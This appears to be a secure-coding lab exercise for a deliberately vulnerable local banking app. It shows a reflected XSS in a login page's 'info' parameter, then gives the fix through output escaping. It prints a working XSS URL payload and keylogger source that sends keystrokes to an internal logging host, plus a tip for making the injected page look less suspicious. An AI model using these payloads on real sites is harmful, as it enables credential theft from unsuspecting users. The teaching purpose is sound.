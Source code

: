 # Exercise 2 - Stealing Credentials with XSS

This exercise is to help you understand how an XSS vulnerability on a login page can be used to install a key-logger and steal your credentials.

## Setup and Start Applications

1. Start the application in debug mode
   * start the Maven configuration for the launch configuration "v-bank run and build" in DEBUG mode (with the green BUG icon next to the arrow;
   you should have created it as described in IntelliJSetup.md)
1. Open v-bank application and DO NOT log in 
   1. Open http://localhost:8080/ in the browser

## Check for XSS vulnerability. 
Hints:
   * All pages including the login page contain a reflect XSS vulnerability
   * The name of the vulnerable request parameter is __info__
   * Try : http://localhost:8080/login?info=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E  <br/>
   Please note that that the above is the URL encoded version of:
``` http://localhost:8080/login?info=<script>alert('XSS')</script>```

## Carft URL deploying keylogger

So we need to craft a URL with a script tag installing a keylogger into he HTML page instead of the _&lt;script&gt;alert('XSS')&lt;/script&gt;_  

There is a benign keylogger implementation in http://sprg-tools.el.eee.intern/js/stealcreds.js; the name of the function is _installKeylogger_

```javascript
function installKeylogger(cat) {
    category = cat ? cat : 'me';
    document.onkeypress = function (e) {
        var timestamp = Date.now() | 0;
        var stroke = {
            k: e.key,
            t: timestamp
        };
        buffer.push(stroke);
    }
    window.console.log('keylogger installed.');
    window.setInterval(function () {
        if (buffer.length > 0) {
            sendToLogService(buffer);
            buffer = [];
        }
    }, 200);
}

function sendToLogService(jsondata) {
    var data = encodeURIComponent(JSON.stringify(jsondata));
    var url = urlroot + '/log/' + category + '/' + data;
    new Image().src = url;
    window.console.log('data sent, url : ' + url);
} 
```
As you may see it makes log statements, so that you can verify in Chrom DevTool's JavaScript Console if it was installed and keystrokes were sent.
This is only for your understanding, in a real key-logger there are no such DEV features :)

The HTML snippet to load the script and install the key-logger is:   
```<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```   

You should pass it to the login page with the _info_ request parameter:
Link: http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E  
Which is the URL encoded form of: ```http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```  
  
>Please note the "Welcome back!" message. This is to avoid displaying an empty message box, which might be suspicious.

## Fall Victim to the keylogger
Please open the above page with the XSS payload installing the script and TYPE something into the username and login fields. 

## Check logged keystrokes
The key-logger sends keystrokes to a simple web service at http://sprg-tools.el.eee.intern/log/me
If you open the same URL with the browser it should display keystrokes sent from your IP address.

## Fix 

The vulnerability is in the _page.tag_ template file, which a decorator user by all pages of the application.  
It is because between lines 45 and 54 the variables _error_ and _info_ are written into the generated HTML without HTML/XML escaping.  
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert">${error}</div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert">${info}</div>
        </div>
    </c:if>
```
To fix this you need to wrap the `${error}` and `${info}` expressions into a special tag that enables escaping. They will be is `<c:out value='${error}' escapeXml='true' />` and `<c:out value='${info}' escapeXml='true' />`, respectively.
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert"><c:out value='${error}' escapeXml='true' /></div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert"><c:out value='${info}' escapeXml='true' /></div>
        </div>
    </c:if>
```
### Verify fix
Please stop and start the application again and open the malicious link with the XSS payload again :  
http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E
Now no popup should be displayed. And you should see html code in the browser
![](images_exercises/Script_Tag_Escaped.png)